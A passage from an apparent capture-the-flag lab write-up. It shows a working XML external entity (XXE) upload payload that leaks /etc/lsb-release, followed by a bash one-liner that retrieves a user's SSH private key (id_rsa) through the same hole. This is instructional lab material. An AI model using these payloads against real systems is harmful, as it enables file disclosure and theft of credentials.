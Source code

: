     -----------------------------1864243787215350191713873567
    Content-Disposition: form-data; name="file"; filename="0xdf.xml"
    Content-Type: text/xml

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE foo [
      <!ELEMENT foo ANY>
      <!ENTITY bar SYSTEM
      "file:///etc/lsb-release">
    ]>

    <item>
    <Author>
      &bar;
    </Author>
    <Subject>Testing</Subject>
    <Content>This is a test</Content>
    </item>
    -----------------------------1864243787215350191713873567--





    HTTP/1.1 200 OK
    Server: gunicorn/19.7.1
    Date: Mon, 04 Jun 2018 19:42:16 GMT
    Connection: close
    Content-Type: text.md; charset=utf-8
    Content-Length: 268

     PROCESSED BLOGPOST:
      Author:
      DISTRIB_ID=Ubuntu
    DISTRIB_RELEASE=16.04
    DISTRIB_CODENAME=xenial
    DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"


     Subject: Testing
     Content: This is a test
     URL for later reference: /uploads/0xdf.xml
     File path: /home/roosa/deploy/src



Now we have arbitrary file read on the box, as least as far as this user
can read.

### Bash OneLiner to grab files

When I originally solved this box 4 months ago, I wrote a bash one-liner
to allow me to quickly grab different files.



    root@kali# file=/etc/lsb-release
    root@kali# new=/home/roosa/.ssh/id_rsa; sed -i -e "s|${file}|${new}|g" upload.xml; file=$(echo -n $new); curl -s -X POST -F "file=@upload.xml;filename=upload.xml" http://10.10.10.91:5000/upload -x 127.0.0.1:8080 | grep -zo "Author:.*Subject" | strings | grep -v -e "Author:" -e "Subject" |  tee loot/$(echo $file | rev | cut -d'/' -f1 | rev)
